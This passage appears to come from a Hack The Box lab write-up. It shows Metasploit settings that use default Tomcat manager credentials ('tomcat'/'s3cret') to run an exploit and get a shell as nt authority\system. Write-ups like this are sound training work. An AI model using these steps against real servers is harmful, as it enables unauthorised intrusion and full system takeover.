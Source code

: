 ```
set lhost {your tun0 ip as we are connected to the HTB through VPN}
```

```
set httpusername tomcat
```

```
set httppassword s3cret
```

```
exploit
```

![shell](./Screenshots/jerryshell2.png)

We are in and we are `nt authority\system`.

![shell](./Screenshots/jerryshell3.png)

`nt authority\system` is **the highest privilege level** account in a `Windows` systems. This user has full control over the operating system, meaning we have access to all resources and can perform any administrative operations.
